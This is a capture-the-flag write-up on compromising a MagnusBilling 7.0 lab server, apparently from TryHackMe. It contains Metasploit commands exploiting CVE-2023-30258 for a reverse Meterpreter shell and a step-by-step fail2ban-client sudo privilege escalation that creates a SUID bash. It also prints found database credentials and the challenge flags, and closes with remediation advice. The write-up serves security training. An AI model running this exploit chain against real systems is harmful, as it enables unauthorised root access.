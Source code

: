 # MagnusBilling 7.0 CTF Write-up

## Summary
This report documents the exploitation of a MagnusBilling v7.0 server during a Capture The Flag (CTF) challenge. A critical unauthenticated RCE vulnerability (CVE-2023-30258) was used to gain a foothold on the server, followed by a privilege escalation leveraging misconfigured sudo permissions on `fail2ban-client`.

---

### Target Information

- **Target IP**: 10.10.19.151  
- **Platform**: Linux  
- **Web Application**: MagnusBilling v7.0  
- **Vulnerabilities Exploited**:  
  - CVE-2023-30258 (Unauthenticated Remote Code Execution)  
  - Misconfigured Fail2Ban (Local Privilege Escalation)  
  - Hardcoded database credentials

---

### Phase 1: Initial Compromise

#### Network Reconnaissance
```bash
nmap -sV -sC 10.10.19.151
```

Discovered HTTP service on port 80 running MagnusBilling.

#### Vulnerability Research
Identified public exploit for unauthenticated RCE:

•	Rapid7 Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

A Metasploit module is available:
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

#### Exploitation
```bash
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit() > set RHOSTS 10.10.19.151
msf6 exploit() > set LHOST 10.9.3.170
msf6 exploit() > set TARGET 0
msf6 exploit() > exploit
```
**Result**: Meterpreter session obtained as user `asterisk`.

---

### Phase 2: Post-Exploitation

### User Flag
```bash
meterpreter > cat /home/magnus/user.txt
```
**User Flag**: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

### Credential Discovery

Found credentials in `/etc/asterisk/res_config_mysql.conf`:
```
dbhost = 127.0.0.1  
dbname = mbilling  
dbuser = mbillingUser  
dbpass = BLOGYwvtJkI7uaX5
```

---

### Privilege Escalation

#### Check sudo permissions:
```bash
sudo -l
```
Output:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

#### Local Privilege Escalation with `fail2ban-client`

**1. Copy Fail2Ban config:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

**2. Create payload script:**
```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

**3. Custom action config:**
```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
```

**4. Create custom jail:**
```bash
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

**5. Restart Fail2Ban with custom config:**
```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

**6. Run the SUID shell:**
```bash
/tmp/bash -p
```

---

### Root Flag
```bash
cat /root/root.txt
```
**Flag**: `THM{33ad5b530e71a172648f424ec23fae60}`

---

## Attack Flow (Graph)

```mermaid
graph TD
    A[Network Scan] --> B[Identify MagnusBilling]
    B --> C[Exploit CVE-2023-30258]
    C --> D[Meterpreter as asterisk]
    D --> E[Discover Sudo Privileges]
    E --> F[Exploit Fail2Ban Client]
    F --> G[Root Access]
```

---

## Critical Findings

| Vulnerability                         | Risk      | Impact                  |
|--------------------------------------|-----------|--------------------------|
| CVE-2023-30258 (Unauthenticated RCE) | Critical  | Full system compromise  |
| Fail2Ban misconfiguration            | High      | Local privilege escalation to root |
| Hardcoded DB credentials             | Medium    | Potential data theft or DB tampering |

---

## Remediation Recommendations

### Immediate Actions
- Patch MagnusBilling to the latest version.
- Revoke NOPASSWD sudo privileges for `fail2ban-client`.
- Rotate all credentials found in configuration files.

### Long-Term Improvements
- Enforce least privilege principle across all services.
- Perform regular vulnerability scans and patch assessments.
- Apply application allowlisting and endpoint protection.

### Defensive Measures
- Restrict remote access to admin interfaces.
- Monitor sudo activity and critical file access logs.
- Deploy a host-based intrusion detection system (HIDS).

---

## Appendices

### Technical References
- [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)

---

## Timeline
- **Discovery**: 2025-03-25  
- **Exploitation**: 2025-03-25  
- **Report Generated**: 2025-03-26

